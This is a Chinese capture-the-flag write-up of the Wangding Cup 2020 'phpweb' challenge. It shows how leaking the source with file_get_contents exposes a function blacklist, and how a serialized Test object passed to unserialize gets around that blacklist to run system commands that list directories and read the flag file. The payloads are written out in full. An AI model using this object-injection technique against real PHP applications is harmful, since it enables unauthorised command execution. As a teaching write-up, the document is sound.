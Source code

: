 # 网鼎杯 2020 朱雀组

## Web

### phpweb

查看源代码可以发现 form 表单存在注入点，默认执行函数为 `date(Y-m-d h:i:s a)` 。

```html
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</form>
```

尝试使用 `system()` 函数直接进行注入，构造 payload `func=system&p=cat /flag` 发现 `system()` 函数被过滤了。

<figure><img src=".gitbook/assets/phpweb-1.png" alt=""><figcaption></figcaption></figure>

尝试通过 `file_get_contents()` 函数获取 `index.php` 的内容查看被过滤关键字，构造 payload `func=file_get_contents&p=index.php` 可以得到。

<figure><img src=".gitbook/assets/phpweb-2.png" alt=""><figcaption></figcaption></figure>

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
​
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

分析上述代码可以发现存在类 `Test` ，并且黑名单中并没有 `unserialize()` 函数，因此可以尝试通过反序列化来解决，先进行序列化的构造。

```php
<?php
    class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
​
    $a = new Test();
    echo serialize($a);
    // O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

<figure><img src=".gitbook/assets/phpweb-3.png" alt=""><figcaption></figcaption></figure>

发现 `flag` 并没有如愿以偿地出现在根目录，因此通过 `find` 命令与上面同理构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}` 。

<figure><img src=".gitbook/assets/phpweb-4.png" alt=""><figcaption></figcaption></figure>

排除开系统文件可以发现 `/tmp/flagoefiu4r93` 文件，通过构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}` 就得到 flag 了。
